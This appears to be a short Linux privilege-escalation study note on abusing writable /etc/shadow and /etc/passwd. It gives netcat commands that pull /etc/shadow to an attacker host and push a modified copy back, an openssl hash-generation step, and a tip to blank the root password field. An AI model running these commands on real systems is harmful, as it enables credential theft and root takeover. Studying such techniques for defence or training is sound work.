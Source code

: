 ### Weak File Permission
Suppose I have permission to read and write sensitive files like /etc/passwd(contains username),/etc/shadow(contains password hash)
then I can read the users and password of root or others users.
#### File permission check command
-> ls -al
#### Take advantages of write file.
We can replace the hash of any users to our known password.To do that we can copy the /etc/shadow file and after modifying we can also placed the file again.
#### Coping file from target to host machine.
We use netcat listener in target 
-> nc -nvlp 4444 < /etc/shadow
In our host machine to start 
-> nc ip_of_the_target 4444 >shadow
The above command copy a file name shadow.We can here modify the contain using vim and nano editor.

#### Making Hash
-> openssl passwd -6 hello
The above command make a hash for hello format SHA-512-based crypt.

#### Transfer the modify file into target
In our host machine we run the following command
-> nc ip_of_the_targer 4444 < shadow
In target machine
nc -nvlp 4444 > /etc/shadow


### Understanding the /etc/passwd file
                      
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

In /etc/passwd file we can see the something like that.

Field by field (colon : separates them):
root → Username
x → Password placeholder (real password hash is stored in /etc/shadow)
0 → User ID (UID) → 0 = superuser
0 → Group ID (GID) → 0 = root group
root → Comment / GECOS field (user description)
/root → Home directory
/usr/bin/zsh → Login shell (here it’s Zsh, not the usual /bin/bash)
#### If we remove the x that's mean there is no password for that users.


